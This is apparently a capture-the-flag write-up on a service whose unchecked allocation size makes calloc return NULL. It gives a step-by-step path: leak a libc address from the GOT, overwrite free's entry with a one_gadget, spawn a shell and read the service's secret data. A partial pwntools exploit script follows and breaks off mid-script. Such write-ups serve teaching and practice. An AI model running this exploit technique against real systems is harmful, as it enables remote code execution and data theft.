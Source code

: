 ```c++
    puts("How much do you want to read?");
    if (!fgets(&str_buf, 32, stdin))
        exit(1);
    size = strtol(&buf, 0LL, 10);
    if (offset < 0 || size < 0 || offset + size > current_size)
        puts("Invalid range");
    fwrite((char *)current_chunk + offset, size, 1uLL, stdout);
    _IO_putc(10, stdout);
    break;
```

As you see, there is a little bug in "New Sector" action:

```c++
if (*endptr != 0 && *endptr != 10 || sector_size >> 63)
```

If `sector_size` < 2 ** 63, then `sector_size >> 63` is always false, so there is no check for a new chunk size. Remember a bit how malloc works (calloc uses malloc inside): if the requested size is a very big (bigger than all available memory, so the operating system can not allocate such big chunk), malloc returns NULL. 

__Example__: `malloc(999999999999999999)` will return `NULL` if your computer does not have 931322574 gigabytes of RAM. But 999999999999999999 is still lower than 2 ** 63, so we can request a chunk with that size.

When we get NULL pointer, there is no checks for NULL, and we could read and write data on arbitrary location (using `offset` value). Using this method, we could leak a libc address from the GOT table. And then, using this method again, we could rewrite any function pointer inside the GOT table.

What function we want to execute? There is a helpful tool called [one_gadget](https://github.com/david942j/one_gadget). It searches over the libc and find a code which spawns a shell. We could use that tool and find a gadget to spawn a shell easily.

So my exploitation way was:

- request a chunk with a huge size (ex. 999999999999999999)
- leak an address of `free` function and get libc base address
- calculate the address of `one_gadget`
- rewrite `free` function in GOT table with `one_gadget`
- request a new chunk to call free function and execute `one_gadget`
- in the spawned shell read `./data/` directory and get all secret data

Example sploit:

```python
#!/usr/bin/env python3.7

import re
import sys

from pwn import *


IP = sys.argv[1]
PORT = 6666


def main(io):
    free_got = 0x603018
    io.sendline(b'0')
    io.sendline(str(10).encode())
    io.sendline(b'0')
    io.sendline(str(999999999999999999).encode())
    io.sendline(b'2')
    io.sendline(str(free_got).encode())
    io.sendline(str(8).encode())
    io.recvuntil(b'How much do you want to read?\n')
```